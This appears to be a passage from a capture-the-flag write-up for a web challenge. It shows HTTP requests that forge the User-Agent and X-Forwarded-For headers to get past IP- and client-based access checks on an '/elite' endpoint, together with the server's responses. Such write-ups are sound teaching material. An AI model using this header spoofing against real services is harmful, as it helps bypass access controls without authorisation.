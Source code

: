 ```http
GET /elite HTTP/1.1
Host: chall.ycfteam.in:6375
Upgrade-Insecure-Requests: 1
User-Agent: Elite
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

**Response:**

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sun, 25 Aug 2024 17:14:38 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 122
Connection: close

Elite members can access this endpoint only via our dedicated proxy chain:
50.23.41.34
3.54.85.90
110.34.87.34
10.43.21.25
```

The response revealed that Elite members must access the endpoint via a dedicated proxy chain. The IP addresses of the proxy chain were provided.

### 3. Adding the `X-Forwarded-For` Header

Next, the `X-Forwarded-For` header was added to simulate accessing through the provided proxy chain:

```http
GET /elite HTTP/1.1
Host: chall.ycfteam.in:6375
Upgrade-Insecure-Requests: 1
User-Agent: Elite
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: 50.23.41.34,3.54.85.90,110.34.87.34,10.43.21.25
Accept-Language: en-US,en;q=0.9
Connection: close
```

**Response:**

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sun, 25 Aug 2024 17:14:08 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 72
Connection: close

Nope! We only accept requests from our Elite port number - 31173. Leave!
```
